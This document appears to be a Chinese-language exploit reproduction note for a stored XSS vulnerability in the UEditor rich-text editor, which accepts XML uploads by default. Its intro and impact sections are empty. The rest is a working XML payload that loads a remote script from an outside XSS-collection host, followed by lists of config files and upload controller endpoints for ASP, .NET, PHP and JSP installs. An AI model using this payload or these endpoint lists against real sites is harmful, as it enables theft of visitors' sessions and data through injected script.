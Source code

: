 # ueditor 允许xml上传的xss漏洞

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程


```html
<html>
<head></head>
<body>
<something:script src="</tExtArEa>'"><sCRiPt sRC=http://xssye.com/tVbS></sCrIpT>" xmlns:something="xss平台地址">1234</something:script>
</body>
</html>
```

Ueditor 默认支持上传 xml ：config.json可以查看支持上传的后缀


```bash
/ueditor/asp/config.json
/ueditor/net/config.json
/ueditor/php/config.json
/ueditor/jsp/config.json
```

上传文件路径


```bash
/ueditor/index.html

/ueditor/asp/controller.asp?action=uploadimage
/ueditor/asp/controller.asp?action=uploadfile

/ueditor/net/controller.ashx?action=uploadimage
/ueditor/net/controller.ashx?action=uploadfile

/ueditor/php/controller.php?action=uploadfile
/ueditor/php/controller.php?action=uploadimage

/ueditor/jsp/controller.jsp?action=uploadfile
/ueditor/jsp/controller.jsp?action=uploadimage
```